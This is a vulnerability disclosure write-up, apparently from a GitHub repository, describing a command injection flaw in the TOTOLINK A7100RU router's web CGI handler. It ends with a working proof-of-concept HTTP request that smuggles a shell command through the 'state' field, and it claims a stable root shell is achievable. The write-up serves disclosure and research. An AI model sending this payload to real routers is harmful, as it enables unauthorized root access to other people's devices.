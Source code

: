 # TOTOlink A7100RU Command injection vulnerability

## Overview

- Manufacturer's website information：http://totolink.net/
- Firmware download address ： http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1. Affected version

![image-20220401101510842](img/image-20220401101510842.png)

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details

![image-20220401133251352](img/image-20220401133251352.png)

![image-20220401133302413](img/image-20220401133302413.png)

The content obtained by the program through the state parameter is passed to v34, then the content of v34 is formatted into the stack of V23 through the sprintf function, and finally V23 is brought into UCI_ Add_ List function

![image-20220401101339084](img/image-20220401101339084.png)

Format the A4 matched content into V11 through snprintf function, and then bring V11 into cstesystem function

![image-20220401101404038](img/image-20220401101404038.png)

The function directly brings user input into the execv function, which has a command injection vulnerability

## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024
2. Attack with the following  overflow POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/status.asp?timestamp=1647872753309
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/delParentalRules",
"state":"1$(ls>/tmp/123;)"}
```

The reproduction results are as follows:

![image-20220401130711827](img/image-20220401130711827.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220401131610763](img/image-20220401131610763.png)

